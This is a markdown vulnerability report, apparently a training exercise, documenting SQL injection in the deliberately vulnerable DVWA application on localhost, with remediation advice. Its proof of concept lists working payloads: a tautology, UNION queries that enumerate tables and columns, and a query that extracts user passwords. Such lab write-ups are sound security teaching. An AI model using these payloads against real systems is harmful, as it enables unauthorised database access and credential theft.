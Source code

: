 ##  DVWA SQL Injection Level: low

**Executive Summary:** An SQL Injection vulnerability was discovered in the search field of the Damn Vulnerable Web Application, Hence forth known as the **DVWA**, the vulnerability allows an attacker to query and retrieve sensitive information from the database.

## Vulnerability Details
* **Description:** The application is not sanitising user supplied data from the search input field, specifically SQL statements are not adequately escaped before running them, allowing attacker supplied queries to be executed and displayed back on the page 
* **Affected Components:** The search input field within the web application
* **Parameters:** The **ID** parameter supplied through the search input field
* **Impact:**
	1. **Confidentiality:** An attacker can steal sensitive user information including passwords.
	2. **Integrity:** An attacker could potentially change the contents of the database.
	3. **Availability:**
	4. **Reputational Damage:**Leaking sensitive information of users can have significant reputational damage.
	5. **Severity:** **High.** The persistence nature of the **SQLi** and the potential of information leakage makes this a high-severity vulnerability.
	6. **Likelihood of Exploitation:** **High.** crafting the payload is relatively easy.
## Proof Of Concept(POC)
1. In the web application navigate to http://127.0.0.1:42001/vulnerabilities/sqli/ 
2. Locate the search input field at the top of the page
3. In the search input field, enter the following payload:
	```1' or '1'='1'# ```
4. this will be return all user full names
	![payload output](SQLi%20low.png)	
	this confirms the vulnerability, to take it further to demonstrate severity proceed to step 5.
5. In the search input field, enter the following payload.
	```1' UNION SELECT 1, table_name FROM information_schema.tables WHERE table_schema = DATABASE()# ```
6. the output will be a list of tables in the database.
	![payload output](SQLi%20tables%20low.png)
7. run the following command in the search input field to retrieve a list of columns in the ``users`` table.
	```1' UNION SELECT 1, column_name FROM information_schema.columns WHERE table_schema = DATABASE() AND table_name = 'users'#```
8. The output reveals valuable information about the structure of the database
![payload output](DB%20schema%20low.png)
9. run the following command to get the passwords of the users
	``1' UNION SELECT 1, password FROM users#``
	![payload output for passwords](password%20low) 

**Remediation:**

  * **Recommended Solution:** use parameterized queries (prepared statements) and validate user input on the server-side.
  * **Priority:** **High**. Due to the potential impact, this vulnerability should be addressed immediately.
  
  **Reporter Information:**

  * **Name:** Henry Mate Security Analyst
  * **Date Discovered:** July 10, 2025

**References:**
* [OWASP SQL injection](https://owasp.org/www-community/attacks/SQL_Injection)


